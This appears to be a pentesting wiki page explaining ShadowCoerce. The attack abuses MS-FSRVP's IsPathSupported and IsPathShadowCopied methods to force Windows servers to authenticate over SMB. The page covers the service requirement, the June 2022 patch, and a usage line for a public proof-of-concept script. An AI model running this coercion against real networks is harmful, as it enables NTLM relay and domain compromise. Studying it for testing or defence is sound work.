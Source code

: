 # MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)). That interface is available through the `\pipe\FssagentRpc` SMB named pipe.

In late 2021, [Lionel GILLES](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

**The coerced authentications are made over SMB**. Unlike other similar coercion methods (MS-RPRN printerbug, MS-EFSR petitpotam), I doubt MS-FSRVP abuse can be combined with [WebClient abuse](broken-reference) to elicit incoming authentications made over HTTP.

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

![](<../../../.gitbook/assets/File Server VSS Agent Service.png>)

{% hint style="info" %}
In June 2022, Microsoft patched [CVE-2022-30154](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30154) in [KB5014692](https://support.microsoft.com/en-us/topic/kb5015527-shadow-copy-operations-using-vss-on-remote-smb-shares-denied-access-after-installing-windows-update-dated-june-14-2022-6d460245-08b6-40f4-9ded-dd030b27850b), which also patched this coercion attack.
{% endhint %}

## Practice

The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

{% hint style="success" %}
**Nota bene**: for the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can  required. It is enabled by default in the script.
{% endhint %}

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![](<../../../.gitbook/assets/MS FSRVP abuse example.png>)

{% hint style="info" %}
In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. In short, run the command again if it doesn't work the first time.
{% endhint %}

## Resources

Topotam's tweet: [https://twitter.com/topotam77/status/1475701014204461056](https://twitter.com/topotam77/status/1475701014204461056)

Topotam's slides: [https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir](https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir)

{% file src="../../../.gitbook/assets/PetitPotam-SLIDES-RTFM_OSSIR.pdf" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
